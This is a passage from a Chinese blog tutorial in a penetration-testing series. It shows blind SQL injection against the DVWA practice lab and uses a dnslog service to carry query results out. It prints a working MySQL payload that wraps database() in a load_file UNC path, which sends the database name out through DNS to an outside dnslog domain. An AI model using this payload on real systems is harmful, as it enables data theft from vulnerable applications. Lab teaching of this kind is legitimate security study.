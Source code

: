 # 原创
：  26-5 SQL 注入攻击 - 利用dnslog带回回显信息范例

# 26-5 SQL 注入攻击 - 利用dnslog带回回显信息范例

这篇文章是属于安全渗透的文章，选错专栏了，平台的机制不允许我再改，只能这样了，要学习python脚本的读者可以直接忽略这篇文章。 很抱歉我问了客服客服也没法解决。。

环境准备：[构建完善的安全渗透测试环境：推荐工具、资源和下载链接_渗透测试靶机下载-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/129031187)

[26-3 SQL注入攻击 - SQL注入无回显，盲注又被封怎么办？-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/136631963)

#### 一、例子

**目标：使用 DVWA 的盲注作为靶机，获取数据库信息。**

Payload： 

```
# 3mmd5q.dnslog.cn 是dnslog服务器的二级域名要改成自己的
-1' and if((select load_file(concat('\\\\',(select database()),'.3mmd5q.dnslog.cn\\xx'))),1,0)#
```

这个 payload 旨在利用盲注漏洞来执行 SQL 查询，通过 `load_file` 函数加载数据
